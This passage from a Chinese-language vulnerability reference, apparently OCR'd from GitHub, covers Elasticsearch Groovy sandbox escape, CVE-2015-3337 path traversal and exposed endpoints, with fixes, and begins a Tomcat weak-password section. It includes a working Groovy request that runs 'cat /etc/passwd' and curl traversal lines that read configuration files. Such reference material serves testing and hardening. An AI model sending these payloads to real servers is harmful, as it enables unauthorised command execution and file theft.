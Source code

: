 漏洞介绍：

该漏洞主要存在于ElastciSearch 1.3.0-1.3.7和1.4.0-1.4.2，ElasticSearch在比较新的版本中脚本语言引擎使用了Groovy，并且加入了沙盒进行控制，危险代码会被拦截掉。由于沙盒限制不严格，导致存在该漏洞。

测试POC:

	POST http://127.0.0.1:9200/_search?pretty 
	
	{"size":1,"script_fields": {"test#": {"script":"java.lang.Math.class.forName(\"java.io.BufferedReader\").getConstructor(java.io.Reader.class).newInstance(java.lang.Math.class.forName(\"java.io.InputStreamReader\").getConstructor(java.io.InputStream.class).newInstance(java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /etc/passwd\").getInputStream())).readLines()","lang": "groovy"}}}
修复方法：

	1，升级ElasticSearch为最新版本；
	
	2，在配置文件elasticsearch.yml里为每一个节点都加上：script.groovy.sandbox.enabled: true。

漏洞案例：

[启维文化某服务器ElasticSearch Groovy命令执行漏洞](http://www.wooyun.org/bugs/wooyun-2015-099572)

***2.3 Elasticsearch 任意文件读取漏洞(CVE-2015-3337)***

测试POC:

	curl http://127.0.0.1:9200/_plugin/head/../../config/elasticsearch.yml 注意curl版本
	
	curl http://127.0.0.1:9200/_plugin/插件名称如head/../../xx文件
修复方法： 1，升级ElasticSearch为最新版本

***2.4 Elasticsearch 数据库配置文件读取问题***

测试POC:

[http://localhost:9200/_river/search](http://localhost:9200/_river/search)

[exp-db:CVE-2015-3337](https://www.exploit-db.com/exploits/37054/)

修复方法：

	1、安装elasticsearch官方的Shield
	
	2、添加iptables规则
	
	3、设置elasticsearch.yml文件中的network.bind_host: 内网ip,仅允许内网访问
	
## Apache Tomcat弱口令

### 1. Apache Tomcat简介
***
Tomcat是由Apache软件基金会下属的Jakarta项目开发的一个Servlet容器，按照Sun Microsystems提供的技术规范，实现了对Servlet和JavaServer Page（JSP）的支持，并提供了作为Web服务器的一些特有功能，如Tomcat管理和控制平台、安全域管理和Tomcat阀等。由于Tomcat本身也内含了一个HTTP服务器，它也可以被视作一个单独的Web服务器。

### 2、漏洞成因
***
配置Tomcat的时候使用了常用的用户名和弱口令，导致Tomcat可被攻击者登陆，并利用manager中的war部署功能上传恶意脚本最终导致服务器沦陷。

